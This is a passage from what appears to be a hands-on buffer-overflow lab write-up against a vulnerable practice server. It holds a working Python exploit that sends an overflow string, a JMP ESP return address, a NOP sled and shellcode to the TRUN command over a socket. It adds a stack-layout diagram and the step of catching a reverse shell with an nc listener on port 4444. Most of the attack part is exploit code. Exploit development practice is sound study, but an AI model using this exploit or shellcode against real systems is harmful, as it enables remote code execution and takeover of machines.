"\x2b\xaa\x8e\x80\xf5\x33\x8b\xf4\xa9\x65\x45\xa2\x0f\xdc"
"\x27\x1c\xc6\xb3\xe1\xc8\x9f\xff\x31\x8e\x9f\xd5\xc7\x6e"
"\x11\x80\x91\x91\x9e\x44\x16\xea\xc2\xf4\xd9\x21\x47\x6f"
"\xfe\xf8\x48\xf8\xa7\x6f\x15\x64\x58\x5a\x5a\x91\xdb\x6e"
"\x23\x66\xc3\x1b\x26\x22\x43\xf0\x5a\x3b\x26\xf6\xc9\x3c"
"\x63")

shellcode = "A" * 2003 + "\xaf\x11\x50\x62" + "\x90" * 32 + overflow

try:
 s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
 s.connect(('192.168.142.1', 9999))
 s.send(('TRUN /.:/' + shellcode).encode('latin-1'))
 s.close()

except:
 print("Could not connect or send payload")
 sys.exit()

Stack (low address → high address)

┌─────────┬────────────┬─────────────┬──────────┐

│ A x2003 │ EIP (JMP ESP) │ NOP x32 │ Shellcode │

└─────────┴────────────┴─────────────┴──────────┘

↑

Location pointed to by ESP after RET execution

(Jumps here when running JMP ESP)

In this state, I turned on nc -nvlp 4444, turned on the vuln program in Windows as administrator mode, and then ran 2.py in Kali.



The payload opens a command shell on the target practice program, completing the proof of concept.
